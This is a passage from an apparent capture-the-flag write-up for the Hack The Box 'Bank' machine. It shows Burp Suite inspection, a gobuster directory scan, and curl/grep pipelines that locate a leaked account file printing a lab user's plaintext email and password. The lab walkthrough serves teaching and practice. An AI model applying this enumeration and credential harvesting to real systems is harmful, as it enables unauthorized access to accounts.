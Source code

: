 The size of the entity body (Content-Lenght), is 7322, while I expected just the redirect with no body.
Checking the response with Burpsuite, we can notice different kind of data:
```
<div class="col-xs-9 text-right">
    <div style="font-size: 30px;"> $</div>
        <div>Balance</div>
    </div>
...
    <th>Card Type</th>
    <th>Card Number</th>
    <th>Card Exp Date</th>
    <th>CVV</th>
    <th>Balance</th>
```

Something that seems related to bank information.

So let's try a scan on http://bank.htb with gobuster `gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o nmap/bank-dirs.txt`.

If we check directory **/balance-transfer** we can see different files with extension **.acc**.
Each file is a report starting with `++OK ENCRYPT SUCCESS`, and then several text fields, where name, email and password are base64 encoded.
But unfortunately, decoding does not provide us credentials.

So, we can try with curl, grep and some regex to analyze these files and try to understand if there's something interesting for us.

With `curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l` we can notice that there are 999 files.
With `curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | grep -F '2017-06-15' | wc -l` we can notice that each file has been created on the same date (2017-06-15).
So, now check the size of each file `root@kali# curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | grep -Eo '[a-f0-9]{32}\.acc.*"right">.+ ' | cut -d'>' -f1,7 | tr '">' ' ' | sort -k2 -n | head` and also cleanup the output and sort it by the size:
```
68576f20e9732f1b2edc4df5b8533230.acc  257 
09ed7588d1cd47ffca297cc7dac22c52.acc  581 
941e55bed0cb8052e7015e7133a5b9c7.acc  581 
052a101eac01ccbf5120996cdc60e76d.acc  582 
0d64f03e84187359907569a43c83bddc.acc  582 
10805eead8596309e32a6bfe102f7b2c.acc  582 
20fd5f9690efca3dc465097376b31dd6.acc  582 
346bf50f208571cd9d4c4ec7f8d0b4df.acc  582 
70b43acf0a3e285c423ee9267acaebb2.acc  582 
780a84585b62356360a9495d9ff3a485.acc  582 
```

The first file has the smallest size, let's check it:
```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
